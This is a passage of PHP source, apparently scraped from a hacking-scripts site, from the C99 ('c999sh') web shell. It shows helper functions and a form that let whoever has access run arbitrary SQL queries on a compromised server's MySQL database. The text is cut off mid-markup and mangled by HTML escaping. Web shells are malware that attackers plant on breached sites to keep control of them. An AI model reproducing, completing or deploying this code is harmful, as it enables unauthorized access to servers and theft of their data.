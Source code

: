  if ($print) {if ($nl2br) {echo nl2br($out);} else {echo $out;}}
 return $out;
}
}
if (!function_exists("mysql_buildwhere"))
{
function mysql_buildwhere($array,$sep=" and",$functs=array())
{
 if (!is_array($array)) {$array = array();}
 $result = "";
 foreach($array as $k=&gt;$v)
 {
  $value = "";
  if (!empty($functs[$k])) {$value .= $functs[$k]."(";}
  $value .= "'".addslashes($v)."'";
  if (!empty($functs[$k])) {$value .= ")";}
  $result .= "`".$k."` = ".$value.$sep;
 }
 $result = substr($result,0,strlen($result)-strlen($sep));
 return $result;
}
}
if (!function_exists("mysql_fetch_all"))
{
function mysql_fetch_all($query,$sock)
{
 if ($sock) {$result = mysql_query($query,$sock);}
 else {$result = mysql_query($query);}
 $array = array();
 while ($row = mysql_fetch_array($result)) {$array[] = $row;}
 mysql_free_result($result);
 return $array;
}
}
if (!function_exists("mysql_smarterror"))
{
function mysql_smarterror($type,$sock)
{
 if ($sock) {$error = mysql_error($sock);}
 else {$error = mysql_error();}
 $error = htmlspecialchars($error);
 return $error;
}
}
if (!function_exists("mysql_query_form"))
{
function mysql_query_form()
{
 global $submit,$sql_act,$sql_query,$sql_query_result,$sql_confirm,$sql_query_error,$tbl_struct;
 if (($submit) and (!$sql_query_result) and ($sql_confirm)) {if (!$sql_query_error) {$sql_query_error = "Query was empty";} echo "&lt;b&gt;Error:&lt;/b&gt; 
".$sql_query_error."
";}
 if ($sql_query_result or (!$sql_confirm)) {$sql_act = $sql_goto;}
 if ((!$submit) or ($sql_act))
 {
  echo "&lt;/pre&gt;
"; if ($tbl_struct) { echo "
&lt;table border="0"&gt;
&lt;tbody&gt;
&lt;tr&gt;
&lt;td&gt;&lt;form method="POST" name="\&quot;c999sh_sqlquery\&quot;"&gt;&lt;b&gt;"; if (($sql_query) and (!$submit)) {echo "Do you really want to";} else {echo "SQL-Query";} echo ":&lt;/b&gt;


 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png